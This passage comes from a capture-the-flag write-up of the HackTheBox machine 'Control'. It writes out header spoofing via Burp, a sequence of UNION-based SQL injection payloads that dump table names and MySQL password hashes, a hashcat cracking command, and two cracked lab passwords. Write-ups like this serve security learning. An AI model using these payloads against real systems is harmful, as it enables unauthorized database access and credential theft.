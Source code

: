 The right IP address is the same one in the HTML comment! I guess I should have
tried it first.

Now we can visit the admin page by using Burp to add the header:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/control/proxy.png)

And here's the admin page:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/control/admin.png)

We can use the handy [Add Custom
Header](https://portswigger.net/bappstore/807907f5380c4cb38748ef4fc1d8cdbc)
plugin for Burp to automatically add the header on every request:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/control/plugin.png)

If we search product `'` we get a SQL error:
```
Error: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1
```

## Exploiting the SQL injection
Now let's search for `' or 1=1 #`
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/control/sql-injection.png)

Looks like SQL injection to me! Trying to enumerate the number of columns in the
query we find out there are 6 with `test' UNION SELECT 1, 2, 3, 4, 5, 6 #`
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/control/col-enum.png)

Let's find the database name with `test' UNION SELECT database(), 2, 3, 4, 5, 6
#`
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/control/db-name.png)

And now let's find all the tables in the database with `test' UNION SELECT
GROUP_CONCAT(table_name), 2, 3, 4, 5, 6 FROM information_schema.tables where
table_schema='warehouse' #`
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/control/tables.png)

It looks like there are only products tables. Let's make a step back. Let's see
if we can read MySQL users with `test' UNION SELECT user, password, 3, 4, 5, 6
FROM mysql.user #`
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/control/dbms-users.png)

Cool! We have some hashes! Let's try to crack them with hashcat. I'm using the
rockyou wordlist and the `best64` rule set from hashcat: `hashcat -m 300 -a0 -r
/usr/share/hashcat/rules/best64.rule dbms-hashes.txt rockyou.txt`.

It will take a couple of seconds if you have a GPU. Let's see the results:
```
$ hashcat -m 300 -a0 dbms-hashes.txt --show
cfe3eee434b38cbf709ad67a4dcdea476cba7fda:l3tm3!n
0e178792e8fc304a2e3133d535d38caf1da3cd9d:l33th4x0rhector
```
